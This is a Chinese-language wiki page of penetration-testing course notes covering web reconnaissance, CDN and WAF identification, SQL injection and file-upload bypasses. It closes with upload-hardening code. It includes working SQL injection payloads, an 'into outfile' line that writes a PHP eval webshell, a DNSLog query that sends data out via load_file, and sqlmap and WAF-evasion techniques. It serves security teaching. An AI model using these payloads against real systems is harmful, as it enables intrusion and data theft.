


# XD安全渗透测试课程基础阶段24天学习笔记整理

> 原文来源：XD安全微信公众号归档文章《XD安全 学习笔记 | 基础阶段24天》
> 整理对象：Day 1-24 基础阶段完整学习笔记
> 核心模块：Web基础、SQL注入、文件上传

---

## 目录结构

- [[#web基础模块-day-1-10|Web基础模块 (Day 1-10)]]
- [[#sql注入模块-day-11-19|SQL注入模块 (Day 11-19)]]
- [[#文件上传模块-day-20-24|文件上传模块 (Day 20-24)]]
- [[#交叉引用索引|交叉引用索引]]

---

## Web基础模块 (Day 1-10)

### Day 1：概念名词与基础架构 (P1)

#### 核心概念
- **域名体系**：顶级域名、二级域名、多级域名分类及安全测试意义（扩大测试面）
- **DNS 系统**：域名解析流程、Hosts 文件优先级、CDN 与 DNS 关系
- **脚本语言分类**：ASP/PHP/ASPX/JSP/JavaWeb/PL/PY/CGI 等及漏洞关联性
- **后门定义**：绕过安全控制的访问方式、开发阶段调试后门、实战中作为命令控制台角色
- **Web 架构模型**：源码(脚本类型/应用方向) + 操作系统 + 中间件 + 数据库 + 第三方组件
- **漏洞分类映射**：
  - 源码层：SQL注入、上传、XSS、代码执行、变量覆盖、逻辑漏洞、反序列化
  - 中间件层：未授权访问、变量覆盖
  - 数据库层：弱口令、提权
  - 系统层：提权、远程代码执行

> 🔗 相关页面：[[network-fundamentals-penetration-testing]]（网络基础与渗透测试）、[[xd-security-pentest-course-curriculum]]（课程大纲知识图谱）

### Day 2：数据包分析与 HTTP/HTTPS (P2)

#### 协议差异
| 特性 | HTTP | HTTPS |
|------|------|-------|
| 传输内容 | 明文 | 加密 (SSL/TLS) |
| 端口 | 80 | 443 |
| 证书 | 无需 | 需 CA 签发 |
| 防劫持 | 无 | 有效防运营商劫持 |

#### 数据包结构
- **Request**：请求行 → 请求头 → 空行 → 请求数据
- **Response**：状态行 → 响应头 → 空行 → 响应数据
- **请求方法**：GET/POST/PUT/DELETE/HEAD/OPTIONS/TRACE/CONNECT
- **响应码分类**：1xx/2xx/3xx/4xx/5xx

> 🔗 相关页面：[[burpsuite-basics-tutorial]]（Burp Suite Intruder 四大爆破模式实战）

### Day 3：搭建安全与环境识别 (P3)

#### 识别技术栈
- **中间件指纹**：Apache/IIS/Tomcat/Nginx 特征识别
- **敏感文件收集**：后台路径、数据库配置、备份文件
- **后门权限验证**：执行权限、目录操作权限、用户权限

### Day 4：Web 源码分析与 CMS 识别 (P4)

#### 信息敏感点
- **目录结构**：配置文件、后台目录、模板目录、数据库目录
- **脚本类型识别**：通过扩展名、响应头、报错信息判断
- **应用分类**：社交/论坛/门户/博客/CMS 等不同代码机制对应漏洞
- **框架识别**：开源/闭源、框架/非框架、CMS 指纹库

#### 实用工具与资源
- 在线指纹识别：云悉、WhatWeb、CMSprint
- 代码监控：GitHub Monitor
- 学习文档：WebSec 语言安全文档

### Day 5：操作系统与数据库指纹识别 (P5)

#### OS 识别方法
- 大小写敏感性：Windows 不敏感、Linux 敏感
- TTL 值判断：~64 Linux、~128 Windows
- Nmap `-O` 参数主动探测

#### 数据库识别
- **端口映射**：
  - 关系型：MySQL(3306)、SQL Server(1433)、Oracle(1521)
  - NoSQL：MongoDB(27017)、Redis(6379)、Memcached(11211)
- **常见组合**：ASP+Access、PHP+MySQL、ASPX+MSSQL、JSP+Oracle、Python+MongoDB

#### 第三方服务发现
- 端口扫描 + 特征匹配 → 扩大攻击面（邮件、游戏、负载均衡等）

> 🔗 相关页面：[[vulnhub-platform-resource-index]]（靶机实战环境获取）

### Day 6：加密算法解析与工具 (P6)

#### 常见算法体系
- **单向哈希**：MD5、SHA 系列
- **编码转换**：Base64、URL、Unicode、Hex、ASCII
- **对称加密**：AES、DES（模式：ECB/CBC/CFB/OFB、填充、IV、Key）
- **自定义加密**：带 Salt、带密码、带偏移、组合变种

#### 解密策略
- 枚举撞库、逆向算法还原、可逆算法直接解密
- 特征识别：长度、字符集、正则模式、代码审计

#### 实战代码示例
- PHP 自定义加密/解密函数对照分析
- AES 在线工具参数详解（模式、填充、IV、Key 16/24/32 字节）

### Day 7：CDN 判断与绕过策略 (P7)

#### CDN 识别方法
| 方法 | 无 CDN 特征 | 有 CDN 特征 |
|------|-------------|-------------|
| 响应时间 | 单一、稳定 | 多节点、波动 |
| Ping/nslookup | 单 IP | 多 CNAME/IP |
| 在线测速 | 单节点 | 多地节点 |

#### 绕过思路矩阵
1. **子域名查询**：主域做 CDN，子域可能直连
2. **邮件服务溯源**：MX 记录、邮件头 `Received` 链路追踪真实 IP
3. **海外节点请求**：无 CDN 节点地区直连源站
4. **历史 DNS 记录**：SecurityTrails、DNSDB、Crt.sh 证书透明度日志
5. **暗网搜索引擎**：Shodan、ZoomEye、FOFA 搜索特征文件 Hash
6. **全网扫描**：ZMap、Masscan、fuckcdn 类工具
7. **本地 Hosts 验证**：绑定疑似真实 IP 观察访问异常

> 🔗 相关页面：[[c2-redirectors-malleable-c2-profiles]]（CDN 域名前置与重定向器隐匿技术）、[[network-fundamentals-penetration-testing]]（网络拓扑与 DMZ 架构）

### Day 8：站点架构分析与 WAF 识别 (P8)

#### 搭建习惯画像
- 目录型/端口型/子域名型/类似域名型/旁站 C 段/搭建软件特征

#### WAF 核心识别
- **定义**：Web Application Firewall（网站应用级入侵防御系统）
- **识别手法**：特征响应头、拦截页面、主动探测 (wafw00f)、被动流量分析
- **测试意义**：决定 Payload 构造策略、编码绕过、分块传输、参数污染等战术选择

> 🔗 相关页面：[[internal-network-pivoting-techniques]]（内网穿透代理技术对比）、[[named-pipe-smb-detection-sysmon]]（SMB Beacon 流量特征与检测对抗）

### Day 9：APP 与非 Web 资产信息收集 (P9)

#### APP 分析流程
1. **反编译提取**：一键反编译工具获取源码、API 接口、密钥
2. **流量代理抓包**：Burp Suite 代理 + 证书导入、WireShark 旁路分析
3. **第三方资产探针**：Shodan、FOFA、ZoomEye 资产测绘
4. **服务接口探测**：API 文档泄露、Swagger UI、GraphQL 内省

> 🔗 相关页面：[[burpsuite-basics-tutorial]]（Burp 代理配置与证书处理）、[[android-shelling-unshelling-techniques]]（Android 加固脱壳对抗）

### Day 10：资产监控体系构建 (P10)

#### 监控维度
- **GitHub 监控**：最新 Exp/POC、目标敏感代码泄露（Teemo、Github-Monitor）
- **子域名持续枚举**：DNS/备案/证书透明度/全球节点解析
- **暗网资产追踪**：FOFA/Shodan/ZoomEye 微信推送告警
- **变更检测**：指纹变更、新端口、新子域名、证书更新

---

## SQL注入模块 (Day 11-19)

### Day 11：漏洞原理与 PHP 目录遍历 (P11)

#### SQL 注入本质
> 前端数据未严格过滤 → 拼接进 SQL 语句 → 作为代码执行 → 数据泄露/篡改/服务器失陷

#### 常见注入位置
- URL 参数（GET/POST）
- HTTP 头：`X-Forwarded-For`、`Referer`、`User-Agent`、`Cookie`
- 表单字段、JSON/XML 数据体

#### 辅助技能：PHP 目录递归遍历
```php
function my_dir($dir) {
    if (@$handle = opendir($dir)) {
        while (($file = readdir($handle)) !== false) {
            if ($file != ".." && $file != ".") {
                if (is_dir($dir . "/" . $file)) {
                    my_dir($dir . "/" . $file);  // 递归子目录
                } else {
                    $files[] = $dir . "/" . $file;
                }
            }
        }
    }
    return $files;
}
```

> 🔗 相关页面：[[pikachu-target-writeup-part1-setup-brute-force]]（Pikachu 靶场环境搭建）、[[attack-defense-world-beginner-web-writeup]]（基础 Web 漏洞实战）

### Day 12：SQL 注入识别与信息收集 (P12)

#### 判断注入点
- **数字型**：`id=1 and 1=1` / `id=1 and 1=2`
- **字符型**：`id=1' and '1'='1` / `id=1' and '1'='2`
- **闭合符号**：单引号、双引号、括号、反引号

#### 信息收集核心函数 (MySQL ≥ 5.0)
| 目标 | Payload |
|------|---------|
| 版本 | `version()` / `@@version` |
| 当前库 | `database()` |
| 当前用户 | `user()` / `current_user()` |
| 操作系统 | `@@version_compile_os` |
| 字段数 | `order by N` / `union select 1,2,3...` |

#### 系统库利用 (`information_schema`)
- `schemata`：所有库名 → `schema_name`
- `tables`：所有表名 → `table_name` + `table_schema` 过滤
- `columns`：所有列名 → `column_name` + `table_name`/`table_schema` 过滤

### Day 13：MySQL 联合注入与文件读写 (P13)

#### Union 注入标准流程
```sql
-- 1. 确定字段数
?id=-1 order by 3 --+
-- 2. 确定回显位
?id=-1 union select 1,2,3 --+
-- 3. 枚举库/表/列/数据
?id=-1 union select 1,group_concat(schema_name),3 from information_schema.schemata
?id=-1 union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='pikachu'
?id=-1 union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'
?id=-1 union select 1,username,password from pikachu.users
```

#### 文件操作 (需 `FILE` 权限 + `secure_file_priv` 为空)
- **读文件**：`load_file('D:/path/file.txt')` → 回显位
- **写文件**：`union select 1,'<?php @eval($_POST[x]);?>',3 into outfile 'D:/web/x.php'`

#### `magic_quotes_gpc` 影响
- `On` 时：单引号、双引号、反斜线、NULL 自动转义 → 需宽字节绕过或编码绕过

> 🔗 相关页面：[[mysql-dnslog-injection-loadfile-unc]]（load_file UNC 路径 DNSLog 外带）、[[php-webshell-fundamentals-chopper-analysis]]（Webshell 连接与分析）

### Day 14：各类提交方式下的注入适配 (P14)

#### 参数类型识别矩阵
| 位置 | 典型特征 | 测试要点 |
|------|----------|----------|
| URL Query | `?id=1` | GET 参数直接拼接 |
| Form Data | `name=value&age=11` | POST 表单、Content-Type: application/x-www-form-urlencoded |
| JSON Body | `{"username":"admin"}` | Content-Type: application/json，需闭合 JSON 结构再闭合 SQL |
| XML Body | `<id>1</id>` | Content-Type: application/xml，实体注入结合 XXE |
| HTTP Headers | `X-Forwarded-For: 1.1.1.1` | 头部字段直接入库/查询 |
| Cookie | `PHPSESSID=xxx` | Cookie 字段未过滤 |

#### JSON 注入闭合技巧
```json
// 原始：{"a":"1","b":"2"}
// 注入：{"a":"1' and 1=1#","b":"2"}
// 关键：JSON 双引号不需闭合，只需闭合 SQL 单引号
```

> 🔗 相关页面：[[ctfshow-web-info-gathering-brute-force]]（Cookie/Headers 信息利用）、[[ssrf-bypass-techniques]]（HTTP 头伪造绕过）

### Day 15：Oracle / MongoDB / Access / SQL Server 注入差异 (P15)

#### 数据库特性对比表
| 特性 | MySQL | Oracle | SQL Server | Access | MongoDB |
|------|-------|--------|------------|--------|---------|
| 注释符 | `--+` `#` | `--` | `--` | `*` `/**/` | 无 |
| 字符串连接 | `concat()` | `\|\|` | `+` | `&` | N/A |
| 系统表 | `information_schema` | `all_tables`/`user_tables` | `sysobjects`/`syscolumns` | `MSysObjects` | `system.namespaces` |
| 多语句 | 支持 | 不支持 | 支持(分号) | 不支持 | N/A |
| 延时函数 | `sleep()` | `dbms_pipe.receive_message` | `waitfor delay` | 无 | N/A |
| 文件操作 | `load_file`/`outfile` | `UTL_FILE` | `xp_cmdshell`/`OPENROWSET` | 无 | N/A |

#### Access 注入实战
- 无 `information_schema`，直接查业务表
- 系统表 `MSysObjects` 通常不可读 → 偏移注入猜表名/列名
- Sqlmap 易误报，需手工验证

#### MongoDB NoSQL 注入
- 数据传输 JSON 格式
- 操作符注入：`$ne`、`$gt`、`$regex`、`$where`
- JavaScript 注入：`$where: "function() { return this.password.match(/^a/); }"`
- 盲注：`$regex` 逐位爆破、$where 延时

> 🔗 相关页面：[[mongodb-nosql-injection-guide]]（MongoDB 四大注入手法与实战案例）、[[buuctf-web-writeup-collection]]（BUUCTF Web 题目分类索引）

### Day 16：查询方式差异与报错/盲注技术 (P16)

#### SQL 语句类型对应注入策略
| 语句类型 | 典型场景 | 回显特征 | 利用手法 |
|----------|----------|----------|----------|
| `SELECT` | 文章展示、搜索、列表 | 直接回显 | Union 查询、报错注入 |
| `INSERT` | 注册、留言、日志 | 无直接回显 | 报错注入、延时盲注、DNSLog |
| `UPDATE` | 修改密码、个人信息 | 成功/失败提示 | 报错注入、布尔盲注 |
| `DELETE` | 删除文章、用户 | 成功/失败提示 | 报错注入、布尔盲注 |
| `ORDER BY` | 排序接口 | 数据顺序变化 | 报错注入、布尔盲注 |

#### 报错注入核心 Payload (MySQL)
```sql
-- updatexml
' or updatexml(1, concat(0x7e, (select database()), 0x7e), 0) or '

-- extractvalue
' or extractvalue(1, concat(0x7e, (select user()), 0x7e)) or '

-- floor() 双重查询
' or (select 1 from (select count(*), concat(0x7e, (select version()), 0x7e, floor(rand(0)*2)) x from information_schema.tables group by x) a) or '
```

#### 布尔盲注逐位提取
```sql
-- 判断数据库名长度
?id=1 and (length(database())=8) --+
-- 逐位 ASCII 爆破
?id=1 and (ascii(substr(database(),1,1))=115) --+
```

#### 延时盲注 (Time-based)
```sql
-- 条件延时
?id=1 and if((ascii(substr(database(),1,1))=115), sleep(5), 0) --+
-- 无回显函数场景 (mysql_fetch_array 等)
?id=1 and (select 1 from (select sleep(5)) a) --+
```

> 🔗 相关页面：[[mysql-duplicate-entry-error-based-sqli]]（floor(rand(0)*2) 机制深度解析）、[[ctfshow-web-sql-injection-bypass-basics]]（CTFshow SQLi 绕过基础与进阶）

### Day 17：二次注入 / 加解密注入 / DNSLog 外带 (P17)

#### 二次注入 (Second-Order SQLi)
- **存储阶段**：恶意数据入库（如注册用户名 `admin'#`）
- **触发阶段**：后续功能调用该数据未过滤拼接 SQL（如修改密码 `UPDATE users SET pwd='new' WHERE user='admin'#'`）
- **关键点**：存储时转义/过滤，使用时未过滤 → 双重语境差异

#### 加解密注入
- 前端加密 → 后端解密 → 拼接 SQL
- 绕过思路：逆向算法构造密文、利用加密特性（如可控 IV、ECB 模式块重排）

#### DNSLog 盲注外带 (MySQL Windows)
```sql
-- 前置：Windows + secure_file_priv 为空 + FILE 权限 + 外网可通
select load_file(concat('\\\\', (select version()), '.dnslog.cn\\abc'));
-- 触发 DNS 解析 → 日志平台记录版本信息
```
- 平台：CEYE.io、Hyuga、Dnslog.cn

> 🔗 相关页面：[[mysql-dnslog-injection-loadfile-unc]]（DNSLog 详细原理与平台使用）、[[attack-defense-world-master-advanced-writeup]]（高级区二次注入/堆叠注入实战）

### Day 18：堆叠注入与 WAF 绕过基础 (P18)

#### 堆叠注入 (Stacked Queries)
- **特征**：多语句执行，分号 `;` 分隔
- **适用场景**：
  - 需写入数据（如插入管理员账号绕过加密密码）
  - 执行 DDL/DML：`CREATE`、`DROP`、`ALTER`、`INSERT`、`UPDATE`、`DELETE`
- **数据库支持**：MySQL (mysqli_multi_query)、SQL Server、PostgreSQL、Oracle (PL/SQL 块)

#### WAF 绕过特殊符号利用
| 符号 | 作用 | 示例 |
|------|------|------|
| `/**/` | 内联注释，打断关键词 | `un/**/ion sel/**/ect` |
| `%00` | 空字节截断 (旧版 PHP) | `id=1%00' union select...` |
| `%0a/%0d` | 换行符绕过行匹配 | `id=1%0aunion%0aselect` |
| `@` | 变量标识 (MySQL) | `select @version` |
| `` ` `` | 反引号包裹标识符 | `select \`user\` from \`users\`` |

#### 参数污染 (HPP - HTTP Parameter Pollution)
```http
# 多个同名参数，不同中间件处理差异
# PHP/Apache: 取最后值
# ASP.NET/IIS: 取所有值逗号拼接
# JSP/Tomcat: 取第一个值
GET /page?id=1&id=2&id=3 HTTP/1.1
```
- 实战：`id=1/**/union/**/select/**/1,2,3%23*/&id=-1` → 安全狗匹配第一个 `id=1/**/union...` 无恶意，后端取最后 `id=-1 union select 1,2,3#` 执行

> 🔗 相关页面：[[sqlmap-api-automation]]（SQLMap 自动化批量扫描与 WAF 绕过集成）、[[attack-defense-world-master-advanced-writeup]]（堆叠注入实战题目）

### Day 19：SQLMap 高级绕过 WAF 实战 (P19)

#### User-Agent 伪装
```bash
# 随机 UA
sqlmap -u "url" --random-agent

# 指定搜索引擎 UA
sqlmap -u "url" --user-agent "Mozilla/5.0 (compatible; Baiduspider/2.0; +http://www.baidu.com/search/spider.html)"
```

#### 关键 Tamper 脚本
| 脚本 | 作用 | 适用场景 |
|------|------|----------|
| `space2comment.py` | 空格 → `/**/` | 空格过滤 |
| `charencode.py` | 字符 → URL 编码 | 关键词过滤 |
| `equaltolike.py` | `=` → `LIKE` | 等号过滤 |
| `versionedmorekeywords.py` | 关键词 → `/*!version keyword*/` | MySQL 版本注释绕过 |
| `between.py` | `>` → `NOT BETWEEN 0 AND` | 比较运算符过滤 |

#### 代理池与延时注入绕过频控
```bash
# 代理池
sqlmap -u "url" --proxy-file proxies.txt --random-proxy

# 延时注入避免触发频控
sqlmap -u "url" --technique T --time-sec 10
```

#### 白名单绕过思路
- IP 白名单：寻找源站真实 IP、内网跳板、CDN 边缘节点漏洞
- 参数白名单：构造符合正则的恶意 Payload（如 `id=1 union select 1,2,3` 符合 `^\d+$` 绕过）

---

## 文件上传模块 (Day 20-24)

### Day 20：文件上传基础与常见验证逻辑 (P20)

#### 漏洞定义与危害
- **定义**：程序未全面限制上传文件类型/内容 → 上传 Webshell/脚本/病毒
- **危害**：直接 Getshell、服务器沦陷、横向移动跳板

#### 发现判断路径
| 模式 | 方法 |
|------|------|
| 黑盒 | 扫描器扫描、会员中心/后台功能点测试、Fuzz 扩展名 |
| 白盒 | 代码审计上传逻辑、中间件解析配置、框架默认路由 |

#### 关键注意点
- 区分漏洞类型：编辑器类 / 第三方组件类 / 常规业务类
- 上传 ≠ 执行：需满足**可上传**、**可访问**、**可解析执行**三要素

#### 实战环境
- upload-labs 靶场：https://github.com/c0ny1/upload-labs/releases

### Day 21：黑白名单绕过技术大全 (P21)

#### 黑名单绕过 (Deny List Bypass)
| 技术 | 原理 | 适用条件 |
|------|------|----------|
| 大小写绕过 | `PhP` `pHp` | Windows/大小写不敏感 FS |
| 多层后缀 | `shell.php.jpg` | 只检查最后后缀 |
| 双写绕过 | `shell.pphphp` | 单次 replace 过滤 |
| 空字节截断 | `shell.php%00.jpg` | PHP < 5.3.4、`magic_quotes_gpc=Off` |
| `::$DATA` (NTFS) | `shell.php::$DATA` | Windows NTFS 交替数据流 |
| 点/空格结尾 | `shell.php.` `shell.php ` | Windows 自动去除末尾点/空格 |
| `.user.ini` / `.htaccess` | 配置文件解析控制 | Apache/Nginx 允许覆盖 |

#### 白名单绕过 (Allow List Bypass)
| 技术 | 原理 |
|------|------|
| 解析漏洞配合 | 上传白名单图片 + 解析漏洞执行 |
| 条件竞争 | 上传临时文件 → 竞争窗口重命名/移动 → 执行 |
| 文件头伪造 | `GIF89a` + PHP 代码 → `getimagesize()` 绕过 |
| 二次渲染绕过 | 图片重绘破坏 Payload → PLTE chunk / IDAT chunk 隐写 |

#### 代码审计要点 (upload-labs Pass-06)
```php
$deny_ext = array('.asp','.aspx','.php','.jsp');
$file_ext = strtolower(strrchr($file_name, '.'));
$file_ext = str_replace('::$DATA', '', $file_ext);  // 去除 ADS
$file_ext = trim($file_ext);  // 去除首尾空格
// 绕过：.php. / .php::$DATA / .PhP / shell.php%00.jpg
```

### Day 22：内容检测、逻辑缺陷与数组绕过 (P22)

#### MIME 类型检测绕过
```php
$allow_type = array('image/jpeg','image/png','image/gif');
if (!in_array($_FILES['upload_file']['type'], $allow_type)) die();
// 绕过：Burp 修改 Content-Type: image/jpeg
```

#### `getimagesize()` 绕过
```php
$img_info = getimagesize($_FILES['upload_file']['tmp_name']);
if ($img_info === false) die();
// 绕过：图片马 (copy 1.jpg/b + shell.php/a shell.jpg) 保留真实图片头
```

#### 逻辑缺陷：先移动后校验 (Pass-17)
```php
move_uploaded_file($temp_file, $upload_file);  // 先移动
if (!in_array($file_ext, $ext_arr)) {          // 后校验
    unlink($upload_file);                      // 删除，但有竞争窗口
}
```
- **利用**：上传 `.php` → 校验前访问 → 条件竞争 Getshell
- **数组绕过 (Pass-20)**：`save_name[]=shell.php` → `is_array($file)` 为真 → `count($file)-1` 取最后元素绕过后缀检查

#### 文件包含配合上传
- 上传图片马 → 本地文件包含 (LFI) → `include 'upload/shell.jpg';` → 代码执行
- 利用 `php://filter` 读取源码、 `data://` 协议执行代码

> 🔗 相关页面：[[php伪协议与反序列化利用]]（PHP 伪协议 LFI/RCE 利用链）、[[pikachu-target-writeup-part4]]（Pikachu 文件上传/包含/RCE 实战）

### Day 23：中间件解析漏洞与编辑器漏洞 (P23)

#### 经典解析漏洞矩阵
| 中间件 | 版本/条件 | 触发方式 | 示例 |
|--------|-----------|----------|------|
| Apache | < 2.4.0 / 默认配置 | 多后缀解析 | `shell.php.xxx` → 识别为 PHP |
| IIS 6.0 | 默认 | 目录解析 | `asp.asp/1.jpg` → 目录当 ASP 解析 |
| IIS 7.0/7.5 | 默认 + PHP CGI | 畸形路径 | `1.jpg/.php` → 当 PHP 解析 |
| Nginx | < 0.8.37 / PHP CGI `fix_pathinfo=1` | 任意文件名 | `1.jpg/xx.php` → 当 PHP 解析 |

#### 编辑器漏洞清单
| 编辑器 | 典型漏洞 | 利用路径 |
|--------|----------|----------|
| FCKeditor | 2.6.3 及以下 | `/editor/filemanager/connectors/php/upload.php?Type=File` 上传绕过 |
| Kindeditor | 4.1.5 及以下 | `/php/upload_json.php` 扩展名黑名单绕过 |
| UEditor | 1.4.3 / .NET 版 | `/net/controller.ashx?action=catchimage` SSRF + 上传 / `/php/controller.php` 路径遍历 |
| CKEditor | 插件配置不当 | 配合文件管理插件上传绕过 |
| TinyMCE | 插件配置不当 | `filemanager` 插件目录遍历上传 |

#### 实战思路
1. 识别编辑器版本 → 查找对应 Exp
2. 寻找上传接口 → 构造绕过 Payload
3. 结合解析漏洞 → 上传图片马 + 解析执行
4. 结合文件包含 → 上传图片马 + LFI 执行

> 🔗 相关页面：[[edu-src-penetration-test-case-study]]（实战案例：文件上传绕过 Getshell 全链路）

### Day 24：WAF 绕过与安全修复方案 (P24)

#### WAF 绕过实战技巧
| 技术 | 示例 | 原理 |
|------|------|------|
| 文件名参数污染 | `filename="shell.php"; filename="1.jpg"` | 解析差异：WAF 校验第一个，后端取第二个 |
| 重复参数 | `file=@shell.php&file=@1.jpg` | 多值处理差异 |
| 境界符混淆 | `----WebKitFormBoundary\r\n` → 畸形分隔符 | 解析器容错性差异 |
| 大小写/编码混淆 | `Content-Disposition: form-data; name=\"file\"; filename=\"shell.pHp\"` | 正则匹配遗漏 |
| 截断边界 | `filename=\"shell.php\0.jpg\"` / `filename=\"shell.php/\"` | 字符串处理函数差异 |

#### 安全修复方案 (纵深防御)


#### 核心修复代码模板
```php
// 1. 扩展名白名单
$allow_ext = ['jpg','png','gif','pdf'];
$ext = strtolower(pathinfo($filename, PATHINFO_EXTENSION));
if (!in_array($ext, $allow_ext)) die('扩展名不允许');

// 2. MIME 校验 (finfo 扩展)
$finfo = finfo_open(FILEINFO_MIME_TYPE);
$mime = finfo_file($finfo, $tmp_name);
$allow_mime = ['image/jpeg','image/png','image/gif','application/pdf'];
if (!in_array($mime, $allow_mime)) die('MIME 不允许');

// 3. 文件头校验
$heads = [
    'jpg' => ['ffd8ffe0','ffd8ffe1','ffd8ffe2'],
    'png' => ['89504e47'],
    'gif' => ['474946383761','474946383961'],
    'pdf' => ['25504446']
];
$file_head = bin2hex(file_get_contents($tmp_name, false, null, 0, 4));
$valid = false;
foreach ($heads[$ext] as $h) {
    if (strpos($file_head, $h) === 0) $valid = true;
}
if (!$valid) die('文件头不匹配');

// 4. 随机名存储非 Web 目录
$new_name = md5(uniqid(mt_rand(), true)) . '.' . $ext;
$save_path = '/var/upload/files/' . $new_name;  // 非 DocumentRoot
move_uploaded_file($tmp_name, $save_path);

// 5. 存储目录禁用执行 (Nginx)
# location /upload/ { add_header Content-Disposition attachment; php_flag engine off; }

// 6. 二次渲染 (可选，破坏 Payload)
$img = imagecreatefromstring(file_get_contents($save_path));
imagejpeg($img, $save_path, 90);
```

#### 配置层面加固
- **Nginx**：`location ~ \.php$ { deny all; }` 在上传目录
- **Apache**：`<Directory /upload> php_flag engine off </Directory>` 或 `.htaccess` 禁止执行
- **IIS**：请求筛选 → 扩展名黑名单 / 处理程序映射移除 `.php`
- **权限**：上传目录 `www-data` 只写不可执行，数据库账号最小权限

> 🔗 相关页面：[[php-webshell-obfuscation-av-evasion]]（Webshell 免杀对抗视角）、[[race-condition-vulnerability-analysis]]（条件竞争漏洞原理与防御）

---

## 交叉引用索引

### 核心技术页面映射表

| 学习笔记模块 | 对应知识库页面 | 关联说明 |
|--------------|----------------|----------|
| **网络基础/DNS/CDN** | [[network-fundamentals-penetration-testing]] | OSI 模型、ARP、网络拓扑、DMZ 架构 |
| **Burp Suite 实战** | [[burpsuite-basics-tutorial]] | Intruder 四模式、弱口令爆破、代理配置 |
| **SQL注入/MySQL** | [[mysql-dnslog-injection-loadfile-unc]] | DNSLog 外带、load_file UNC 路径 |
| **SQL注入/报错注入** | [[mysql-duplicate-entry-error-based-sqli]] | floor(rand(0)*2) 机制深度解析 |
| **SQL注入/MongoDB** | [[mongodb-nosql-injection-guide]] | 四大注入手法、GKCTF 实战案例 |
| **SQL注入/绕过基础** | [[ctfshow-web-sql-injection-bypass-basics]] | intval/正则/进制/位运算/堆叠注入 |
| **SQLMap 自动化** | [[sqlmap-api-automation]] | REST API 批量扫描、Python 自动化 |
| **文件上传/Webshell** | [[php-webshell-fundamentals-chopper-analysis]] | 一句话原理、蚁剑/菜刀连接、Content-Type 绕过 |
| **文件上传/免杀** | [[php-webshell-obfuscation-av-evasion]] | 算术表达式拆分、XOR 混淆、多态生成 |
| **PHP 伪协议/LFI** | [[php伪协议与反序列化利用]] | php://filter/data:///gopher:// 利用链 |
| **实战渗透案例** | [[edu-src-penetration-test-case-study]] | EduSrc 实战：弱口令→XSS→上传绕过→Getshell |
| **内网穿透/代理** | [[internal-network-pivoting-techniques]] | Frp/Venom/SSH/Cobalt Strike SMB Beacon 对比 |
| **C2 隐匿/CDN** | [[c2-redirectors-malleable-c2-profiles]] | 重定向器拓扑、Malleable Profile、Domain Fronting |
| **靶场实战索引** | [[vulnhub-platform-resource-index]] | 750+ 靶机、Writeup 交叉引用、OSCP 路径 |
| **课程知识图谱** | [[xd-security-pentest-course-curriculum]] | 88天大纲、阶段映射、模块导航 |

### 靶场实战页面映射

| 靶场 | 关联页面 | 覆盖知识点 |
|------|----------|------------|
| Pikachu | [[pikachu-target-writeup-part1-setup-brute-force]]、[[pikachu-target-writeup-part3]]、[[pikachu-target-writeup-part4]]、[[pikachu-target-writeup-part5]] | 暴力破解、SQLi 全类型、RCE/文件包含/上传/越权、XXE/SSRF/反序列化 |
| 攻防世界-新手区 | [[attack-defense-world-beginner-web-writeup]] | 信息泄露、弱口令、PHP弱类型、头伪造、Webshell、命令执行、JS逆向 |
| 攻防世界-高手区 | [[attack-defense-world-master-advanced-writeup]] | ThinkPHP5 RCE、文件包含、SQLi变种、JS逆向、反序列化、上传绕过、SSTI、Git泄露、preg_replace RCE |
| BUUCTF Web | [[buuctf-web-writeup-collection]] | 47题分类索引：SQLi/文件包含/命令执行/上传/反序列化/SSTI/XXE/弱类型/MD5碰撞 |
| CTFshow Web | [[ctfshow-web-info-gathering-brute-force]]、[[ctfshow-web-sql-injection-bypass-basics]] | 信息收集28关、SQLi绕过8关、命令执行15关完整技术栈 |

---

## 学习路径建议



### 核心工具链清单
| 类别 | 工具 | 用途 |
|------|------|------|
| 代理抓包 | Burp Suite Pro | 请求篡改、Intruder 爆破、Repeater 复现 |
| SQL注入 | SQLMap / Ghauri | 自动化检测、注入利用、WAF 绕过 |
| 信息收集 | Nmap / Masscan / Fofa / Shodan | 端口扫描、资产测绘、指纹识别 |
| 文件上传 | upload-labs / fuzzdb / FuzzDicts | 靶场练习、扩展名/绕过字典 |
| 编码加密 | CyberChef / 在线工具箱 | 编解码、加密解密、哈希识别 |
| 靶场环境 | VulnHub / Docker / sqli-labs / pikachu | 实战复现、漏洞复现 |

---

> **声明**：本页面仅供安全技术学习与研究使用，基于 XD安全公开课程笔记整理。实战中请严格遵守法律法规，授权前提下开展渗透测试。所有漏洞利用代码仅作原理演示，切勿用于非法用途。

## 来源

- [0x00实验室-202108-202304_084](../sources/0x00实验室-202108-202304_084.md)
